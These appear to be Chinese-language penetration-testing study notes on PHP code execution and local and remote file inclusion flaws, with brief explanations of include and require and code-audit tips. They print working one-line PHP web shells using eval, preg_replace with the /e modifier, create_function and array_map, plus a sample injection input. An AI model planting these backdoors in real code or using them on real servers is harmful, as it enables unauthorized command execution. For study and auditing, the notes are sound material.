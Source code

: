 # 代码执行漏洞

代码执行漏洞原理：

用户输入的数据被当作后端代码执行

`<?php @eval($_REQUEST[8])?>` 其实一句话木马的本质就是一个代码执行漏洞。用户输入的数据被当作代码进行执行。

RCE远程命令或者代码执行。现在因为RCE这个词滥用，RCE的范围比较广，只要渗透的最终情况可以实现执行命令或者是代码都属于RCE，例如代码执行、文件包含、反序列化、命令执行，甚至是写文件Getshell都可以输入RCE

eval可以一次性执行多行代码


还有一个一句话木马

```PHP
<?php
echo preg_replace('/a/e',$_GET[8],'abc');
?>
```


正则表达式：

/a/i -> a是正则标识 i是修饰符(不区分大小写)

/a/e -> a是正则表达式，e是修饰符(要去替换的值可以用php的代码去执行)

一些一句话木马漏洞

多看看开发手则，说不定能找到开发不知道的漏洞


```PHP
<?php
$a = create_function('$id',$_REQUEST)
?>
```

> 使用：}phpinfo();/

```PHP
<?php
$a = [1, 2, 3, 4, 5];
$b = array_map($_REQUEST[1], $_REQUEST[2]);
?>
```

CMS安装的本质就是把原始的数据写入数据库

## 本地包含与远程包含

* 文件包含漏洞

攻击者利用包含的特性，加上应用本身对文件(包含)控制不严格，最终造成攻击者进行任意文件包含。（注：包含的文件会被当成脚本文件进行解析）。

一句话来说就是：文件包含并不属于漏洞，但是由于对包含进来的文件不可控，导致了文件包含漏洞的产生。

<br />

> 包含文件很有用，可以简化代码
文件包含包括本地包含和远程文件包含（需要allow_url_include = On）
本地文件包含LFI远程文件包含RFI

相同代码重复出现在不同文件中出现代码冗余，所以出现了文件包含函数。就是为了让代码更加高效，需要用到的部分代码会去调用，且被包含的文件会被当作php代码执行，忽略后缀本身。

* 文件包含的函数

> `include`PHP运行到include然后去调用被包含的文件执行，如果包含文件不存在、报错也会继续向下执行。

<br />

> `require`PHP在运行之前，就先去把被包含的文件的内容进行提取出来然后整合成一个新的PHP一起执行。如果包含的文件不存在，报错，就不会往下执行了

在代码审计一个代码的时候，可以使用代码审计软件进行快速审计关键词

当然在时间充足的情况下通读全文是最好的选择。

